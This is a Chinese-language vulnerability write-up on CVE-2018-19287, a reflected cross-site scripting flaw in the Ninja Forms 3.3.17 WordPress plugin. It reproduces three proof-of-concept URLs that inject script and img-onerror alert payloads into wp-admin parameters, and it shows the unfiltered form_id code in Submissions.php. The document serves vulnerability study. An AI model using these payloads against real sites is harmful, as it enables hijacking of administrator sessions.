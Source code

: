 ```yaml
---
title: "（CVE-2018-19287）WordPress Plugin - Ninja Forms 3.3.17 XSS"
id: zhfly3247
---
```


# （CVE-2018-19287）WordPress Plugin - Ninja Forms 3.3.17 XSS

## 一、漏洞简介

Ninja Forms是WordPress的终极免费表单创建工具。使用简单但功能强大的拖放式表单创建器在几分钟内构建表单。对于初学者，可以快速轻松地设计复杂的表单，绝对没有代码。对于开发人员，利用内置的钩子，过滤器，甚至自定义字段模板，使用Ninja Forms作为框架，在表单构建或提交的任何步骤中执行您需要的任何操作。

## 二、漏洞影响

## 三、复现过程

下面是我从exploit-db上复制的POC，为了方便判断，修改了弹窗的内容。

```
http://0-sec.org/wp-admin/edit.php?s&post_status=all&post_type=nf_sub&action=-1&form_id=1&nf_form_filter&begin_date&end_date="><img+src=mtk+onerror=alert(/POC1/);//&filter_action=Filter&paged=1&action2=-1 
```

```
http://0-sec.org/wp-admin/edit.php?s&post_status=all&post_type=nf_sub&action=-1&form_id=1&nf_form_filter&begin_date="><img+src=mtk+onerror=alert(/POC2/);//&end_date&filter_action=Filter&paged=1&action2=-1 
```

```
http://0-sec.org/wp-admin/edit.php?post_status=trash&post_type=nf_sub&form_id=1"><script>alert(/POC3/);</script>&nf_form_filter&paged=1 
```

我们只要直接复制POC到浏览器的地址栏回车即可触发漏洞。

下图是触发第一个POC的图：

![image](../img/27cee64fc00ff910c8d8aa7642f5a56e.png)

下图是触发第二个POC的图：

![image](../img/2936c5be43f04b4530ea57b3fd000e5c.png)

下图是触发第三个POC的图：

![image](../img/b51ca6a9feb454b98abfe20b65263f25.png)

### 漏洞分析过程

笔者直接从POC方面入手，简单分析一下漏洞的成因。由于方法是一样的，笔者是一个懒人，这里就只分析了POC3的成因。

通过POC查找关键词nf_sub，确定了核心文件\wp-content\plugins\ninja-forms\includes\Admin\Menus\Submissions.php。

下图是Submissions.php部分内容：

![image](../img/21bec62cbc6f87d2d246688637f73730.png)

通过粗略的阅读，发现这个函数是导致POC3成功弹窗的关键。

下图是Submissions.php文件第71-104行内容：

```
public function change_views( $views )

{

```
// Remove our unused views.

unset( $views[ 'mine' ] );

unset( $views[ 'publish' ] );

// If the Form ID is not empty...

if( ! empty( $_GET[ 'form_id' ] ) ) {

    // ...populate the rest of the query string.

    $form_id = '&amp;form_id=' . $_GET[ 'form_id' ] . '&amp;nf_form_filter&amp;paged=1';

} else {

    // ...otherwise send in an empty string.

    $form_id = '';

}

// Build our new views.

$views[ 'all' ] = '&lt;a href="' . admin_url( 'edit.php?post_status=all&amp;post_type=nf_sub'  ) . $form_id . '"&gt;'

                . __( 'Completed', 'ninja-forms' ) . '&lt;/a&gt;';

$views[ 'trash' ] = '&lt;a href="' . admin_url( 'edit.php?post_status=trash&amp;post_type=nf_sub' ) . $form_id . '"&gt;'

                    . __( 'Trashed', 'ninja-forms' ) . '&lt;/a&gt;';

// Checks to make sure we have a post status.

if( ! empty( $_GET[ 'post_status' ] ) ) {

    // Depending on the domain set the value to plain text.

    if ( 'all' == $_GET[ 'post_status' ] ) {

        $views[ 'all' ] = __( 'Completed', 'ninja-forms' );

    } else if ( 'trash' == $_GET[ 'post_status' ] ) {

        $views[ 'trash' ] = __( 'Trashed', 'ninja-forms' );

    }

}

return $views; 
``` `}` 
```

从上面代码，我们可以看到，form_id并没有被过滤，导致XSS存在。

```
$form_id = '&form_id=' . $_GET[ 'form_id' ] . '&nf_form_filter&paged=1'; 
```

## 四、参考链接

> https://www.exploit-db.com/exploits/45880/

> https://www.freebuf.com/vuls/190411.html